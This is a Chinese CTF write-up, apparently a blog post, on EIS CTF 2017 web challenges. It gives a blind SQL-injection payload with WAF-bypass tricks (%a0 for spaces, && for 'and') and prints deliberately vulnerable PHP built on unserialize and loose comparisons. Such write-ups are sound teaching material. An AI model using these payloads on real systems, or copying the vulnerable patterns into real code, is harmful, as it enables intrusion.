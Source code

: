```yaml
---
title:  EIS CTF 2017 Web  Write-up
subtitle: 上交高校运维比赛
time: 2017.11.15 10:00:00
layout: post
catalog: true
tags:
- CTF
- Web
excerpt: 上交高校运维比赛，以NISL名义参赛。

---
```


# EIS CTF

## Login

![1](http://momomoxiaoxi.com/img/post/EIS/1.png)

盲注，存在waf

and 空格被过滤，用%a0绕过空格，&&替代为and。

`uname=admin'%a0%26%26%a0pwd>'1'--%a0&pwd=admin`

用burpsuite依次爆破，即可。（字符串可以比较）



## PHP是最好的语言

http://202.112.26.124:8080/95fe19724cc6084f08366340c848b791/index.php.bak存在文件泄漏

```php
<?php
$v1=0;$v2=0;$v3=0;
$a=(array)unserialize(@$_GET['foo']);
if(is_array($a)){
    is_numeric(@$a["param1"])?exit:NULL;
    if(@$a["param1"]){
        ($a["param1"]>2017)?$v1=1:NULL;
    }
    if(is_array(@$a["param2"])){
        if(count($a["param2"])!==5 OR !is_array($a["param2"][0])) exit;
        $pos = array_search("nudt", $a["param2"]);
        $pos===false?die("nope"):NULL;
        foreach($a["param2"] as $key=>$val){
            $val==="nudt"?die("nope"):NULL;
        }
        $v2=1;
    }
}
$c=@$_GET['egg'];
$d=@$_GET['fish'];
if(@$c[1]){
    if(!strcmp($c[1],$d) && $c[1]!==$d){
        eregi("M|n|s",$d.$c[0])?err():NULL; 
        strpos(($c[0].$d), "MyAns")?$v3=1:NULL;
    }
}
if($v1 && $v2 && $v3){
    include "flag.php";
    echo $flag;
```